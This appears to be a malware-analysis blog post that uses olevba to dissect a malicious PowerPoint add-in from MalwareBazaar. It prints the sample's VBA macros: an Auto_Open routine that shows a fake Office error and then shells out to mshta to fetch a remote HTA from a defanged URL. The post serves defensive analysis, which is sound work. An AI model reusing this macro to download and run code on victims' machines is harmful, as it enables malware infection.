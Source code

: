 ```yaml
---
layout: post
title: "Looking at PowerPoint Macros with Olevba"
date: 2022-01-07
categories: Malware
tags: malware powerpoint macros mshta olevba
permalink: /powerpoint-macros-olevba/
---
```


In this post I want to walk through analysis of a malicious PowerPoint file using `olevba`. This tool allows you to view macros within Office documents without opening them. If you want to follow along at home, I'm using this sample from MalwareBazaar:

[https://bazaar.abuse.ch/sample/a0f6d9d905b64be221a64da385ad1fd14542c93b35f23cdcbedf71febc68a505/](https://bazaar.abuse.ch/sample/a0f6d9d905b64be221a64da385ad1fd14542c93b35f23cdcbedf71febc68a505/)

## Triaging the File

VirusTotal and MalwareBazaar think the sample is a PowerPoint file with macros, but they could always be wrong. We can confirm using the `file` utility.

```console
remnux@remnux:~/cases/ppt$ file PO04012022.ppam 
PO04012022.ppam: Microsoft PowerPoint 2007+
```

Sure enough, the magic bytes say the file is a PowerPoint presentation. Now let's take a look at the size with `exiftool`.

```console
remnux@remnux:~/cases/ppt$ exiftool PO04012022.ppam 
ExifTool Version Number         : 12.30
File Name                       : PO04012022.ppam
Directory                       : .
File Size                       : 8.6 KiB
File Modification Date/Time     : 2022:01:06 02:01:18-05:00
File Access Date/Time           : 2022:01:05 21:17:11-05:00
File Inode Change Date/Time     : 2022:01:05 21:03:25-05:00
File Permissions                : -rw-r--r--
File Type                       : PPAM
File Type Extension             : ppam
MIME Type                       : application/vnd.ms-powerpoint.addin.macroEnabled.12
Zip Required Version            : 20
Zip Bit Flag                    : 0
Zip Compression                 : Deflated
Zip Modify Date                 : 2022:01:03 23:05:02
Zip CRC                         : 0xb918195e
Zip Compressed Size             : 283
Zip Uncompressed Size           : 597
Zip File Name                   : [Content_Types].xml
```

The file weighs in at under 9 KiB, so I would hazard a guess that it doesn't contain much, if any, embedded content like binaries. Now let's dig in with analysis tools.

## Analyzing the PPAM

We can issue a simple `olevba` command and see the output that comes back by default.

```console
remnux@remnux:~/cases/ppt$ olevba PO04012022.ppam 
olevba 0.60 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: PO04012022.ppam
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO Class1.cls 
in file: ppt/qwqwae.d - OLE stream: 'VBA/Class1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Public Function lol()
Debug.Assert (VBA.Shell("c:\windows\system32\calc\..\conhost.exe c:\windows\system32\calc\..\conhost.exe mshta hxxp://www.j[.]mp/askswewewewzxzxkd"))
End Function

-------------------------------------------------------------------------------
VBA MACRO Module11.bas 
in file: ppt/qwqwae.d - OLE stream: 'VBA/Module11'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub Auto_Open()
Dim obj As New Class1
Debug.Print MsgBox("ERROR!Re-Install Office", vbOKCancel); returns; 1
obj.lol
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |hxxp://www.j[.]mp/asks|URL                                        |
|          |wewewewzxzxkd       |                                             |
|IOC       |conhost.exe         |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

There's a fair bit of information to work through here. Olevba does some analysis work for you to point out suspicious features of the macro code. First, the sample contains macro code defining an `Auto_Open` function. Just like it sounds, whatever is in this function will get executed as soon as the document gets opened. The output shows olevba found possible obfuscated strings, an executable name, and a URL. Looking further back we can see the actual macro code. First, let's take a look at that `Auto_Open` function.

```vb
Sub Auto_Open()
Dim obj As New Class1
Debug.Print MsgBox("ERROR!Re-Install Office", vbOKCancel); returns; 1
obj.lol
End Sub
```

The macro creates an object `obj` of the type Class1, which must also be defined in the macro. It pops up a messagebox (MsgBox) with an error message to distract the victim. Finally, it calls the function `obj.lol()`. Let's dive into Class1 to see what its `lol()` function does.

```vb
Public Function lol()
Debug.Assert (VBA.Shell("c:\windows\system32\calc\..\conhost.exe c:\windows\system32\calc\..\conhost.exe mshta hxxp://www.j[.]mp/askswewewewzxzxkd"))
End Function
```

The `lol()` function uses `VBA.Shell` to launch the command in the provided string. As for the string, I'm not really sure what they're trying to do here. I assume they're going for some form of evasion where they somehow call `mshta.exe` but muddy the water with `conhost.exe` processes during analysis. The sandbox report from [Joe Sandbox](https://www.joesandbox.com/analysis/548357/1/html) doesn't indicate `mshta.exe` actually executed. As for the final payload, the adversary presumably has a HTML Application (HTA) file hosted at `hxxp://www.j[.]mp/askswewewewzxzxkd` and if `mshta.exe` downloads executes the payload it might execute arbitrary script content.

That's it for today, thanks for reading!
